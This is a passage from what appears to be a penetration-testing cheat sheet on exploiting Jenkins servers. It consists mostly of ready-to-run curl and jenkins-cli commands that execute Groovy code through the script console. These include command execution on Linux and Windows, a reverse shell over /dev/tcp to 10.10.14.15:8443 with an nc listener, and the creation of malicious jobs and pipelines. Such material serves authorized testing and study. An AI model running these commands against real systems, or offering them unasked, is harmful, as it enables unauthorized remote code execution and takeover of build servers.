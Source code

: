 
---

## 8. Exploiting Jenkins Script Console

- **Remote Command Execution:**
    
    ```bash
    curl -X POST -u admin:password --data-urlencode "script=println('Exploit successful')" http://target:8080/jenkins/scriptText
    ```
    
- **Groovy Command Execution (Linux):**
    
    ```bash
    curl -X POST -d "script=println 'id'.execute()" http://target:8080/jenkins/scriptText
    ```
    
- **Groovy Command Execution (Windows):**
    
    ```bash
    curl -X POST -d "script=def cmd = 'cmd.exe /c dir'.execute(); println cmd.text" http://target:8080/jenkins/scriptText
    ```
    
- **Reverse Shell via Groovy (Linux):**
    
    ```bash
    curl -X POST -d "script=r = Runtime.getRuntime(); p = r.exec(['/bin/bash','-c','exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do $line 2>&5 >&5; done'] as String[]); p.waitFor()" http://target:8080/jenkins/scriptText
    nc -lvnp 8443
    ```
    

---

## 9. Exploiting Build Job Misconfigurations

- **Create Malicious Job:**
    
    ```bash
    java -jar jenkins-cli.jar -s http://target:8080/jenkins/ create-job exploit_job < exploit.xml
    ```
    

---

## 10. Exploiting Pipeline Misconfigurations

- **Inject Malicious Groovy Script:**
    
    ```bash
    java -jar jenkins-cli.jar -s http://target:8080/jenkins/ build exploit_pipeline
    ```
    

---